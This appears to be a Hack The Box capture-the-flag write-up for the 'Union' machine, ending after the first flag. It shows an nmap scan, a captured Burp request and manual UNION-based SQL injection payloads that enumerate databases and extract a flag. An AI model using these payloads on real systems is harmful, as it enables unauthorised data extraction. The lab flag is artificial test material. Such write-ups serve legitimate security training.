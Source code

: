 ```yaml
---
title: Hack The Box - CTF Lab - Union - Medium
date: 2025-04-12 00:00:01 +0800
image: /images/Union.png
categories: [HTB Labs]
tags: [CPTS, Medium]
---
```

Union is an medium difficulty linux machine featuring a web application that is vulnerable to SQL Injection. There are filters in place which prevent SQLMap from dumping the database. Users are intended to manually craft union statements to extract information from the database and website source code. The database contains a flag that can be used to authenticate against the machine and upon authentication the webserver runs an iptables command to enable port 22. The credentials for SSH are in the PHP Configuration file used to authenticate against MySQL. Once on the machine, users can examine the source code of the web application and find out by setting the X-FORWARDED-FOR header, they can perform command injection on the system command used by the webserver to whitelist IP Addresses.

Let's start with a full nmap scan:
```
sudo nmap -sC -sV -p- 10.10.11.128

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 01:08 EDT
Nmap scan report for 10.10.11.128
Host is up (0.023s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.98 seconds
```
Looks like all we have is port 80, lets visit the website. 

We see an input form called a player eligibility check, so we run BurpSuite. We enter below as a common SQL injection attack and open the request in BurpSuite, then send it to BurpSuite repeater:
```
' OR 1=1 --
```
We get the following:
```
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 18
Origin: http://10.10.11.128
Connection: keep-alive
Referer: http://10.10.11.128/
Cookie: PHPSESSID=9uf6a5q2l73foq6t3icrscqfvt
Priority: u=0

player' OR 1=1 --
```
We see that the SQL commenting out command "--" is removing the line that is giving us the "Complete the challenge" link, meaning that the sql injection is working. 

We now try a different request to list out all of the SQL databases on the server:
```
player=' UNION SELECT group_concat(SCHEMA_NAME) from information_schema.schemata-- - 
```
and we get a list: mysql,information_schema,performance_schema,sys,november.

All the databases are the mySQL default databases except for november.

We try to enumerate the november database:
```
player=' UNION SELECT group_concat(COLUMN_name, TABLE_name) from information_schema.columns where TABLE_SCHEMA LIKE "november" -- -

Sorry, oneflag,playerplayers you are not eligible due to already qualifying.
```
We get the two tables "flag" and "player" with the respective columns "one" and "player."

We now get the flag value:
```
player=' UNION SELECT group_concat(one) from november.flag -- -

UHC{F1rst_5tep_2_Qualify}
```
### First Flag Found



